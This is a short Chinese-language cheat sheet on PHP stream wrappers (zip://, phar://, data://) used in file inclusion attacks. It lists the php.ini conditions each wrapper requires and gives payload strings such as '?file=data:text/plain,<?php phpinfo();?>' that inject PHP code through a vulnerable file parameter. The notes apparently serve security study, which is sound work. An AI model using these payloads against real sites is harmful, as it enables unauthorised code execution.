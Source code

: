 ```
#zip://协议
用途：
	读取压缩文件流协议, 绝对路径/相对路径 读取压缩包内的文件
条件：
	allow_url_fopen:On/Off
	allow_url_include:Off
用法:
	zip://[压缩文件绝对路径/相对路径]#[压缩文件内的子文件名]
	zip://D:/WWW/file.zip%23phpcode.txt
	zip://folder\xxx.zip%23file.txt
	zip://folder\xx.jpg%23xx
```

```
#phar://协议
用途：
	读取压缩包内的文件(相对路径或者绝对路径)
使用条件：
	allow_url_fopen:On/Of
	allow_url_include:off
使用方法
	?file=phar://upload/test.zip/a.php
phar://folder\xxx.jpg\xxx (可用相对路径)

```

```
#data:// 数据流协议
使用条件：
	allow_url_fopen:On
	allow_url_include:On
使用方法：
	?file=data:text/plain,<?php phpinfo();?>
	?file=data:text/plain;base64,base64编码
	?file=data://text/plain,<?php phpinfo();?>
```

![image-20210723164620828](文件上传/image-20210723164620828.png)
